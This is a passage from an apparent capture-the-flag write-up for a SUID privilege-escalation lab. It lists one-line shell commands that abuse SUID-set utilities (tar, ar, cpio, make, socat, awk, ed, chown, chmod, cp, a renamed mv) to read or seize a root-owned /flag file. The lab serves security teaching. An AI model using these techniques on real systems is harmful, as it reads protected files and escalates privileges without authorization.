    ```
19. `zip - /flag | zcat`

20. `tar -cvf - /flag | cat`

21. ```bash
    ar -rvs ~/tmp.a /flag; ar -x ~/tmp.a flag; cat flag
    # then remove files
    rm -rf tmp.a flag
    ```

22. `echo "/flag" | cpio -ov > flag.cpio && cat flag.cpio`

23. **EXTREMELY HARD** `genisoimage -sort /flag -o - /flag`
    
- `genisoimage --help 2>&1 | grep FILE`
    - [https://www.youtube.com/watch?v=14mIjpOXnrM&t=733](https://www.youtube.com/watch?v=14mIjpOXnrM&t=733)
    
24. `env -i cat /flag`

25. `find / -maxdepth 1 -name flag -exec cat {} \;`

26. `echo -e "ans: /flag\n\tcat /flag" > Makefile && make`

27. `nice cat /flag`

28. `timeout 1000 cat /flag`

29. `stdbuf -o L cat /flag`

30. `setarch x86_64 -v cat /flag`

31. `watch -x cat /flag`

32. `socat - /flag`

33. `whiptail --textbox /flag 20 60`

34. `awk '{print $0}' /flag`

35. `sed -n 'p' /flag`

36. ```bash
    ed /flag
    .
    q
    ```

37. `chown -v hacker /flag && cat /flag`

38. `chmod 444 /flag && cat /flag`

39. `cp -v --no-preserve=all /flag ./flag && cat ./flag && rm -rf ./flag`

40. **HARD** `/challenge/babysuid_level40 && mv /usr/bin/cat /usr/bin/mv && /challenge/babysuid_level40 && mv /flag`

    - This level's solution is pretty tricky
    - The level said it had set the `suid` for `mv` after we executed it. So remember, it set the `suid` just for a program called `mv`. `mv` is just a name, no matter what it is in its core logic. That is saying we can replace it with others.
   ```